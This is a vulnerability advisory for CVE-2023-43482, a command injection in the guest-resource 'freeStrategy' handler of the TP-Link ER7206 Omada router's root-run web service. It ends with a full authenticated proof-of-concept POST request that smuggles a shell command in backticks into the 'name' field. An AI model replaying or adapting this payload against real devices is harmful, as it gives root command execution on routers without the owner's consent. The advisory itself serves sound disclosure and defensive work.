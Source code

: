 # CVE-2023-43482
TP-Link ER7206 Omada Gigabit VPN Router uhttpd freeStrategy Command injection Vulnerability

# SUMMARY

A command execution vulnerability exists in the guest resource functionality of Tp-Link ER7206 Omada Gigabit VPN Router 1.3.0 build 20230322 Rel.70591. A specially crafted HTTP request can lead to arbitrary command execution. An attacker can make an authenticated HTTP request to trigger this vulnerability.

# CONFIRMED VULNERABLE VERSIONS

The versions below were either tested or verified to be vulnerable by Talos or confirmed to be vulnerable by the vendor.

Tp-Link ER7206 Omada Gigabit VPN Router 1.3.0 build 20230322 Rel.70591

# PRODUCT URLS

ER7206 Omada Gigabit VPN Router - https://www.tp-link.com/us/business-networking/vpn-router/er7206/

# DETAILS

The ER7206 Omada Gigabit VPN Router is a high-performance networking solution that supports gigabit connectivity, highly secure VPN and integration with Omada SDN for centralized cloud management and zero-touch provisioning.

The ER7206 Omada Gigabit VPN Router runs various services to manage the router or devices connected to the router. One such service is `uhttpd` which runs on port 80/443. It gives users a web interface to configure and manage the router. By default, the service runs as a root user. An attacker can gain root access to the device by exploiting this service.

A command injection vulnerability exists in the `uhttpd` service when a guest resource is added to the device. In the web interface, the guest resource page can be accessed by navigating to `Authentication` -> `Authentication Settings` -> `Guest Resources`. It contains features to add, edit, and delete guest resources. When a guest resource is added, it triggers the following the HTTP Post request:

```
POST /cgi-bin/luci/;stok=b53d9dc12fe8aa66f4fdc273e6eaa534/admin/freeStrategy?form=strategy_list HTTP/1.1
Host: 192.168.8.100
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: sysauth=8701fa9dc1908978bc804e7d08931706
Content-Length: 470

data=%7B%22method%22%3A%22add%22%2C%22params%22%3A%7B%22index%22%3A0%2C%22old%22%3A%22add%22%2C%22new%22%3A%7B%22name%22%3A%22DDDDL|`/usr/bin/id>/tmp/had`%22%2C%22strategy_type%22%3A%22five_tuple%22%2C%22src_ipset%22%3A%22%2F%22%2C%22dst_ipset%22%3A%22%2F%22%2C%22mac%22%3A%22%22%2C%22sport%22%3A%22-%22%2C%22dport%22%3A%22-%22%2C%22service_type%22%3A%22TCP%22%2C%22zone%22%3A%22LAN1%22%2C%22comment%22%3A%22%22%2C%22enable%22%3A%22on%22%7D%2C%22key%22%3A%22add%22%7D%7D 
```

